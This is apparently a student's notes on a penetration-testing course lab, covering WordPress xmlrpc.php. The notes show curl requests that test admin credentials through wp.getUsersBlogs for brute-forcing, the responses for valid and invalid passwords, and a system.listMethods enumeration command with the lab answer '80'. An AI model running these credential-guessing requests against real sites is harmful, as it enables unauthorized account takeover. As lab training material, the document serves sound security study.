 ﻿Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the`xmlrpc.php` page.

If our POST request against`xmlrpc.php` contains valid credentials, we will receive the following output:

#### cURL - POST Request


```shell-session
smoothment@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
 <params>
 <param>
 <value>
 <array><data>
 <value><struct>
 <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
 <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
 <member><name>blogid</name><value><string>1</string></value></member>
 <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
 <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
 </value>
 </param>
 </params>
</methodResponse>
```

If the credentials are not valid, we will receive a`403 faultCode` error.

#### Invalid Credentials - 403 Forbidden

```shell-session
smoothment@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
 <fault>
 <value>
 <struct>
 <member>
 <name>faultCode</name>
 <value><int>403</int></value>
 </member>
 <member>
 <name>faultString</name>
 <value><string>Incorrect username or password.</string></value>
 </member>
 </struct>
 </value>
 </fault>
</methodResponse>
```

These last few sections introduced several methods for performing manual enumeration against a WordPress instance. It is essential to understand manual methods before attempting to use automated tools. While automated tools greatly speed up the penetration testing process, it is our responsibility to understand their impact on the systems we are assessing. A solid understanding of manual enumeration methods will also assist with troubleshooting should any automated tools not function properly or provide unexpected output.


# Question
---
![Pasted image 20250220133306.png](../../../../IMAGES/Pasted%20image%2020250220133306.png)

We can use this:

```
curl -s -X POST http://94.237.53.112:46761/xmlrpc.php -d '<?xml version="1.0"?><methodCall><methodName>system.listMethods</methodName></methodCall>' | grep -o '<string>.*</string>' | wc -l
```

The command greps for `<string>` and counts, we get this output:

```
curl -s -X POST http://94.237.53.112:46761/xmlrpc.php -d '<?xml version="1.0"?><methodCall><methodName>system.listMethods</methodName></methodCall>' | grep -o '<string>.*</string>' | wc -l

80
```

Answer is:

```
80
```
